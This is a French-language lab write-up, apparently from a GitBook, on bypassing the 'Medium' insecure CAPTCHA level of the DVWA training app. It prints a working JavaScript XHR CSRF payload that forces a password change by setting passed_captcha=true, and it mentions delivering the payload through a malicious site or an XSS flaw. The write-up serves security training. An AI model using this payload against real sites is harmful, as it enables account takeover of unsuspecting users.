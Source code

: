 # Niveau "Medium"

Voyons les modifications apportées à ce niveau "Medium" :

![](../../../../.gitbook/assets/0dd89966d796cc2958648f2b515f78e2.png)

L'étape de confirmation est toujours présente :

![](../../../../.gitbook/assets/a4ea88c03ec789f7e1c3282bd635ddeb.png)

La première requête ne semble pas différente :

![](../../../../.gitbook/assets/5e43f2e2e5a1587b4101ebc1d59a510e.png)

La seconde requête contient un nouveau paramètre nommé `passed_captcha` qui a pour valeur `true` :

![](../../../../.gitbook/assets/8cd98b3ca0d4afe92b6b2a1d70a95cf8.png)

Aucune difficulté pour contourner cette protection, on adapte sensiblement notre précédente requête **`XHR`** pouvant être utilisée pour une attaque CSRF :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials = true;

xhr.onreadystatechange = function() {
  if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
    console.log(xhr.response);
  }
}

xhr.send("step=2&password_new=hacked&password_conf=hacked&passed_captcha=true&Change=Change");
```

{% hint style="info" %}
Pour l'exploitation de cette vulnérabilité, il suffit de reprendre le même principe que lors d'une attaque CSRF classique \(faire visiter un site malicieux à la victime, s'appuyer sur une faille XSS, etc\)
{% endhint %}

